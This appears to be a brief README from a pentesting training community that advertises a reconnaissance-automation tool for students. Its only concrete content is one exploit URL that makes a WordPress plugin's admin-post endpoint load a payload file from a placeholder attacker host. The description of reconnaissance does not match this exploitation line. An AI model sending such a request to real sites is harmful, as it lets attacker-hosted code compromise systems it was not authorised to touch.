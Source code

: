 # demo
This is for our student, if you are from Cehpoint E-Learning community started learning pentesting recently so we believe you don't know how to to automate your process of reconnaissance, in some cases to impress your client you also need to demonstrate and you need to provide some personalized demonstration of your reconnaissance process. Lets automate without wasting your time with this tool
http://WEBSITE/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://ATTACKER_HOST/payload.txt
